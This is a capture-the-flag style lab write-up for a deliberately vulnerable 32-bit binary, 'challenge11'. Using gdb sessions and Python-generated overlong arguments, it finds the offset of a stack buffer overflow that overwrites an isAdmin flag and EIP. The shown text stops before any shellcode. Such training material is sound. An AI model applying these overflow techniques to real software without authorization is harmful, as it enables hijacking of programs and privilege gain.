 You can compile it by calling `make` in the folder `~/challenges/challenge11`

## Analysis

```
$ file challenge11
vulnerable: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f6b1aab172bde7f561e30ef84f253da4a081d8d7, not stripped
```

## Normal behaviour

Run Programm with `AAAAAAAAAAA asdf` as parameter.

```
root@hlUbuntu32:~/challenges/challenge11# gdb -q challenge11
Reading symbols from challenge11...(no debugging symbols found)...done.
(gdb) run AAAAAAAAAAA asdf
Starting program: /root/challenges/challenge11/challenge11 AAAAAAAAAAA asdf
Hello cmd-AAAAAAAAAAA.
You are not admin.
isAdmin: 0x0
[Inferior 1 (process 454) exited normally]
(gdb)
```

## Find offset

Lets Crash program with 90 x "A" + 4 x "B".

Re-run the programm with overlong arguments; you see some 0x4141 on the stack (Hex code for A). Nothing to see from the 4x"B".

```sh
(gdb) run `python -c 'print "A" * 90 + "BBBB"'` test
Starting program: /root/challenges/challenge11/challenge11 `python -c 'print "A" * 90 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Looks like it is crashing with EIP=0x41414141. But we want to have EIP=0x42424242. Lets remove
some "A" bytes, and try again:

Crash program with 76 x "A":
```
(gdb) run `python -c 'print "A" * 76 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge11/challenge11 `python -c 'print "A" * 76 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
